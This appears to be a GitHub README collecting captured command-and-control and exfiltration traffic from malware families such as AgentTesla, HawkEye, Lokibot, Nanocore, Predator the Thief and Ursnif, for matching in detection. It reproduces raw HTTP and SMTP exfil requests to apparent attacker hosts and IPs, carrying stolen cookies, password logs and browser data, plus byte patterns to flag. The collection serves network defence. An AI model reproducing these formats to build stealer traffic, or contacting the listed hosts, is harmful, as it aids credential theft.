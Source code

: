 ### A repo for matching on known c2 and exfil traffic keywords (ctrl+f to search)

#### AgentTesla http:
~~~
POST /zin/WebPanel/api.php HTTP/1.1
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 6.1; ru; rv:1.9.2.3) Gecko/20100401 Firefox/4.0 (.NET CLR 3.5.30729)
Content-Type: application/x-www-form-urlencoded
Host: megaplast.co.rs
Content-Length: 308
Expect: 100-continue
Connection: Keep-Alive

HTTP/1.1 100 Continue

p=G1DZYwdIiDZ6V83seaZCmTT0wiCyOlXVS0OEx4YpkUAOuKO/6hfQJ%2BZD2LjpTbyu9w0gudjYXCIc0Ul74wtsvtqYLYuTR%2BlFVl%2B5deG0RnTTo6nFc1M9tx0%2BRo7WXetRdIHkmVMMSeqH%2BEroM7yttDzosvKfKgB%2BJ07oqT/YvQ6CPNW2%2BCETCU6oIlO9XYyrEy6/hYeF%2BgkfRc9xSEfZhh/7Wk0khJ4zZJ3cjEvXDxJcQWA739/yDUy4kOAndihYsWnLw1mVCHxJSJf7%2BguB9f4DpgX10NLpH
~~~
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/agenttesla-http.png "AgentTesla HTTP")

#### AgentTesla smtp exil:
~~~
From: office@larbaxpo[.]com
To: officelogs@larbaxpo[.]com
Date: 9 Oct 2019 17:58:19 +0100
Subject: admin/USER-PC Recovered Cookies
Content-Type: multipart/mixed;
 boundary=--boundary_0_cac7ba32-e0f8-42d4-8b2e-71d1828e6ff7

----boundary_0_cac7ba32-e0f8-42d4-8b2e-71d1828e6ff7
Content-Type: text/html; charset=us-ascii
Content-Transfer-Encoding: quoted-printable

Time: 10/09/2019 17:58:13<br>UserName: admin<br>ComputerName: USE=
R-PC<br>OSFullName: Microsoft Windows 7 Professional <br>CPU: Int=
el(R) Core(TM) i5-6400 CPU @ 2.70GHz<br>RAM: 3583.61 MB<br>IP: 18=
5.183.107.236=0A<hr>
~~~
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/agenttesla-submission.png "AgentTesla Submission")

#### Bladabindi - nJrat
~~~
147.ll1990MURFTUFZT19DNEJBMzY0Nw==1990USER-PC1990admin199018-03-2619901990Win 7 Professional SP1 x861990No1990N/A1990..1990UHJvZ3JhbSBNYW5hZ2VyAA==1990123.inf1990MURFTUFZTw0KMWRlbWF5by5kdWNrZG5zLm9yZzoxOTkwDQp2NC4wLjMwMzE5DQpSZWdTdmNzLmV4ZQ0KRmFsc2UNCkZhbHNlDQpGYWxzZQ0KRmFsc2U=15.CAP199035199023926.CAP1990......JFIF.....`.`.....C...........		.
~~~
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/njrat.png "Bladabindi - nJrat")

#### Hawkeye keyogger
~~~
From: mosharrof@mhcapparels.com
To: mosharrof@mhcapparels.com
Date: 9 Oct 2019 01:57:35 +0100
Subject: HawkEye Keylogger - Reborn v9 - Passwords Logs - admin \ USER-PC -
 89.187.165.47
Content-Type: text/plain; charset=utf-8
Content-Transfer-Encoding: base64

SGF3a0V5ZSBLZXlsb2dnZXIgLSBSZWJvcm4gdjkNClBhc3N3b3JkcyBMb2dzDQphZG1p
biBcIFVTRVItUEMNCg0KPT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09
PT09PT09PT09PT09PT0NClVSTCAgICAgICAgICAgICAgIDogaHR0cHM6Ly9tLmZhY2Vi
b29rLmNvbQ0KV2ViIEJyb3dzZXIgICAgICAgOiBGaXJlZm94IDMyKw0KVXNlciBOYW1l
ICAgICAgICAgOiBob25leUBwb3QuY29tDQpQYXNzd29yZCAgICAgICAgICA6IGhvbmV5
~~~
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/hawkeye.png "Hawkeye")

#### Imminent RAT
~~~
00000000  06 00 00 00 81 13 14 6e 5b 69                     .......n [i
~~~
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/imminent-1.png "Imminent")
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/imminent-2.png "Imminent")

#### Lokibot

follw tcp stream, not http stream in wireshark
~~~
POST /sky/five/fre.php HTTP/1.0
User-Agent: Mozilla/4.08 (Charon; Inferno)
Host: fueda.info
Accept: */*
Content-Type: application/octet-stream
Content-Encoding: binary
Content-Key: 8DAA705A
Content-Length: 176
Connection: close

..'.......ckav.ru..
...a.d.m.i.n.......U.S.E.R.-.P.C.......U.S.E.R.-.P.C......................+................0...8.5.6.9.A.A.F.F.6.3.A.A.A.7.1.D.8.0.4.0.0.E.2.5.....Rqbay....
~~~
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/lokibot.png "Lokibot")

#### Nanocore

flag on "38 00 00 00 17" pattern
~~~
00000000  38 00 00 00 17 f5 4b 2c c3 65 ca 9f eb bc fd 67   8.....K, .e.....g
00000010  ad 6d 0e c4 33 7d b6 40 17 17 97 a1 d9 7c 3c b3   .m..3}.@ .....|<.
00000020  04 ea d0 16 f2 cf 3e 51 29 18 55 e5 1c 7a 6a 91   ......>Q ).U..zj.
00000030  03 99 38 f7 ac 3b f7 89 85 2e c4 d8               ..8..;.. ....
~~~
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/nanocore-38.png "Nanocore 38")

flag on "40 00 00 00 17" pattern:
~~~
00000000  40 00 00 00 17 f5 4b 2c c3 65 ca 9f eb bc fd 67   @.....K, .e.....g
00000010  ad 6d 0e c4 33 7d b6 40 17 17 97 a1 d9 7c 3c b3   .m..3}.@ .....|<.
00000020  04 ea d0 16 87 30 8f fa 78 9d 2a 01 c2 51 ee 07   .....0.. x.*..Q..
00000030  bd e7 23 95 3e ab a1 04 ca 56 b3 fb b7 9b b7 3a   ..#.>... .V.....:
00000040  13 e5 2b 52                                        ..+R
~~~
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/nanocore-40.png "Nanocore 40")

#### Predator the Thief
~~~
POST /api/check.get HTTP/1.1
Content-Type: text/html
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.906.121 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Host: 95.215.205.56
Content-Length: 0
Connection: Keep-Alive
Cache-Control: no-cache

HTTP/1.1 200 OK
Date: Wed, 09 Oct 2019 20:05:42 GMT
Server: Apache
Set-Cookie: SID_INTERFICE=4c616d7fffe95fe8fc2f4f46d272c8a0412c1404; expires=Thu, 10-Oct-2019 20:05:42 GMT; Max-Age=86400; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Content-Length: 132
Keep-Alive: timeout=10, max=100
Connection: Keep-Alive
Content-Type: text/plain; charset=utf-8

nr8uEQylGUpuY0Qjyde/Fn3TGzRg6JFXvSXGhXxBL0Ls2eMYLaWSpJIvp6bRuCqmkclDgfyfYtc7/hQGxqKlJiPdCQ0v/JyN12lNiho7IjBLW3VB02orxGMXTr04WaAQz73q

HTTP/1.1 200 OK
Date: Wed, 09 Oct 2019 20:05:42 GMT
Server: Apache
Set-Cookie: SID_INTERFICE=4c616d7fffe95fe8fc2f4f46d272c8a0412c1404; expires=Thu, 10-Oct-2019 20:05:42 GMT; Max-Age=86400; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Content-Length: 132
Keep-Alive: timeout=10, max=100
Connection: Keep-Alive
Content-Type: text/plain; charset=utf-8

nr8uEQylGUpuY0Qjyde/Fn3TGzRg6JFXvSXGhXxBL0Ls2eMYLaWSpJIvp6bRuCqmkclDgfyfYtc7/hQGxqKlJiPdCQ0v/JyN12lNiho7IjBLW3VB02orxGMXTr04WaAQz73qPOST /api/gate.get?p1=2&p2=5&p3=0&p4=2&p5=0&p6=0&p7=0&p8=0&p9=0&p10=udh8T1P6VQh1ZF9DgIniQjWRSWBTqqYq5k2u HTTP/1.1
Content-Type: multipart/form-data; boundary=---------------------------228
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.906.121 Safari/537.36
Host: 95.215.205.56
Content-Length: 6028
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: SID_INTERFICE=4c616d7fffe95fe8fc2f4f46d272c8a0412c1404

-----------------------------228
Content-Disposition: form-data; name="file"; filename="s7q3q0u1v7q3q0u1v7.zip"
Content-Type: application/octet-stream

PK..........IO................Outlook/UT
...K.].K.].K.]PK..........IOo...?...F.......Outlook/Outlook.txtUT
...K.].K.].K.]s.M...R...K.t(./.K..e..
H,.../J.......f@.`...+.CK#=C3.=C=C../..PK..........IO................General/UT
...K.].K.].K.]PK..........IO................Cookies/UT
...K.].K.].K.]PK..........IO................History/UT
...K.].K.].K.]PK..........IO................Other/UT
...K.].K.].K.]PK..........IOa.qZ............History/Chrome_0.txtUT
...K.].K.].K.].V[k.8.~..?.............B...>..,{D4.V....?..e..4M.M...`....s...O....3..b%....0.
7.'_.;s6.H}6.kZ.Fz........i...aZ...".".v.P.x>PR.[.D...$Q..."...%
f...Y.[.V.......G.*"...Ig..Y...k=}..}..U....@....T..n.-)7Z.Yt..%...$.P.vQ....p.z..&..t...P[...w...T....6A..!k...:...V...Fp.....-.a.....7......_.X...E../;..T8..7.I..)Y..(..,....)JP..........nf..g..E.\..(..@..XQ.l....".e..a.X .H.?*.".a.F9`..~zrzr..	.M......
.
~~~
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/predator.png "Predator")

#### TA505 Loader:
~~~
POST /2021 HTTP/1.1
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0; .NET CLR 1.1.4322; .NET CLR 2.0.50727; .NET CLR 3.0.4506.2152; .NET CLR 3.5.30729; InfoPath.2; CIBA; MS-RTC LM 8)
Content-Length: 95
Host: windows-sys-update.com

&D=User-PC&U=admin&OS=6.1&PR=Dwm.exe%7CEXCEL.EXE%7CExplorer.EXE%7Ctaskhost.exe%7Cwindanr.exe%7CHTTP/1.1 404 Not Found
Server: nginx/1.10.3
Date: Wed, 09 Oct 2019 18:53:18 GMT
Content-Length: 0
Connection: keep-alive
~~~
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/ta505-loader.png "TA505 Loader")

#### Ursnif:
~~~
POST /images/wsF0B4sp/ZaYjjdVgt73Q1BSOy_2Fofi/qF_2BfPTuK/5Ha_2F0xEvmbSfT_2/FluJ8ZF_2Fx8/g6xkZAZrZwN/2skHgzv92i_2BS/uPf4RDQvATKCgx0GZ5gez/ph_2BLcscLQkKDVw/HGZ6zA6DhGCqgPD/VTX09Q_2FUWIFyWps1/nfJ0I3rIZ/QNKbXjeu7xXa3W_2FZSX/bcWtE2zC4RafXFoRlqL/4EC4YHwclzkXrfX/58a3.bmp HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: multipart/form-data; boundary=36775038942641984568
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Content-Length: 399
Host: shoshanna.at

--36775038942641984568
Content-Disposition: form-data; name="upload_file"; filename="78C6.bin"

\.\..V.]:.o..<]......H..)E.J=x...e%3..U.@.f......].tZ..1....g..OzC.5v.?o.NL...;..)..E.G.a~.....M#;.Cu;N/.3\$....x.....R....e..5.....-mW,..	..C................n.G.|..k0...@...?I.Iu......9k^.U6tzT9.b.3....#..V.4].La....zL.h+...aa..H.D.....Ar.......3.w.<.!.-.....|F9! 3.....7
--36775038942641984568--
~~~
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/ursnif.png "Ursnif POST")

